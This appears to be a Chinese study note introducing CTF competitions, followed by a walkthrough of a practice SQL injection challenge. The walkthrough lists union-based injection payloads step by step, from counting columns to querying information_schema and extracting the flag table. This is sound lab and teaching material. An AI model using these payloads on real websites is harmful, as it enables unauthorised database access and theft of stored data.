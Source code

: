 ```yaml
---
slug: /net-security/10/09
---
```


**CTP**（Capture the Flag），中文称“夺旗赛”，安全人员之间进行技术竞争的一种比赛。



比赛形式：

1. 理论赛
2. 夺旗赛：Crypto（编码）、Web（渗透）、MISC（杂项）、Reverse（逆向）、PMW
3. AWD 网络攻防赛（团队赛、混战）
4. CFS 网络攻防赛（团队赛、综合靶场）



常见 CTF 题目：[https://www.ctfhub.com](https://www.ctfhub.com)

### SQL 注入

![](http://img.wukaipeng.com/2023/12/15-080046-IOW1OG-image-20231215080045546.png)

![](http://img.wukaipeng.com/2023/12/15-080106-gmml1U-image-20231215080106026.png)

![](http://img.wukaipeng.com/2023/12/15-080120-h1ksHf-image-20231215080120156.png)

我们使用联合注入的方式：

1️⃣ 判断列数、显示位

输入 `1' order by 2#` 回显，而输入 `1' order by 3#` 不回显，说明数据库查询了两列：

![](http://img.wukaipeng.com/2023/12/17-091506-aq3VSb-image-20231217091506257.png)

![](http://img.wukaipeng.com/2023/12/17-091530-0f5ljW-image-20231217091529991.png)

2️⃣ 获取目标数据库名

输入 `-1' union select database(),2 #` 获取数据库的名称为 `sqli`

![](http://img.wukaipeng.com/2023/12/17-091720-6uGnmk-image-20231217091720030.png)

3️⃣ 获取目标数据库的所有表名、字段名、字段中的数据

输入 `-1' union select group_concat(table_name),2 from information_schema.tables where 
table_schema='sqli' #`，获取得到表 `new` 和 `flag`

![](http://img.wukaipeng.com/2023/12/17-091801-9LpqBH-image-20231217091801810.png)

查找 `flag` 表，输入 `-1' union select group_concat(column_name) ,2 from information_schema.columns where 
table_name='flag' #` ，发现 `flag` 字段

![](http://img.wukaipeng.com/2023/12/17-091849-x8M8uD-image-20231217091849472.png)

输入 `-1' union select flag,2 from sqli.flag #`，最终得到 ctfflag

![](http://img.wukaipeng.com/2023/12/17-091938-jLwlOd-image-20231217091938107.png)









